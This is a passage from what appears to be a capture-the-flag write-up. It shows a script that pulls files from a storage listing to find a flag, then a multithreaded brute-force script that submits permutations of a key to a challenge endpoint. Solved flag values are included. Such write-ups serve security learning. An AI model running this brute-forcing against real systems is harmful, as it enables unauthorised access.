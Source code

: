 ```python
				# Step 4: Download the file associated with the key
				file_content = download_file(key)
				if file_content and b'flag' in file_content:  # Check if 'flag' is in the contents
					print("Found flag in the file!")
					# Save the file locally using the key as the filename
					filename = key.replace("/", "_")  # Clean filename if necessary
					with open(filename, "wb") as f:
						f.write(file_content)
					print(f"Saved file: {filename}")
					break  # Stop downloading further files if flag is found
	except requests.exceptions.Timeout:
		print("Timeout error while trying to fetch the XML.")
	except requests.exceptions.RequestException as e:
		print(f"Error occurred while fetching XML: {e}")

if __name__ == "__main__":
	main()
```

After some tinkering, I opted to only save the content containing flag - using grep to extract it:

**`flag{800e6603e86fe0a68875d3335e0daf81}`**

# System Code

This challenge was probably THE BIGGEST PAIN of the competition in terms of its vagueness.

Ultimately, wasted a load of time trying to enumerate the platform and took to doing a code review. Even then, I wasn't 100% sure what to be looking for. At one point, the team and I mentioned the use of **backupGlpyhsTwr** but at the time (days if I recall) discarded it. We had started code review between the running service and the 'credited' page. Turns out, a key was to be made from **backupGlpyhsTwr** which was an array of a-f.

Using this array as a simple bruteforce key generator was sufficient to script and get the flag:

```python
import requests
import itertools
import concurrent.futures
from tqdm import tqdm

# URL for the challenge
url = "http://challenge.ctf.games:31412/enter="

# Function to send a request and check the result
def try_code(code):
    response = requests.get(f"{url}{code}")
    if "Incorrect" not in response.text:
        print(f"Success! The correct code is: {code}")
        print(f"Flag: {response.text}")
        return True
    return False

# Function to process permutations with multithreading
def bruteforce_with_permutations(chars, max_threads=10):
    with concurrent.futures.ThreadPoolExecutor(max_workers=max_threads) as executor:
        all_permutations = [''.join(perm) for length in range(1, len(chars) + 1) for perm in itertools.permutations(chars, length)]
        
        future_to_code = {executor.submit(try_code, code): code for code in all_permutations}
        
        # Use tqdm to show progress and iterate through the futures
        for future in tqdm(concurrent.futures.as_completed(future_to_code), total=len(future_to_code)):
            if future.result():  # Stop if the correct code is found
```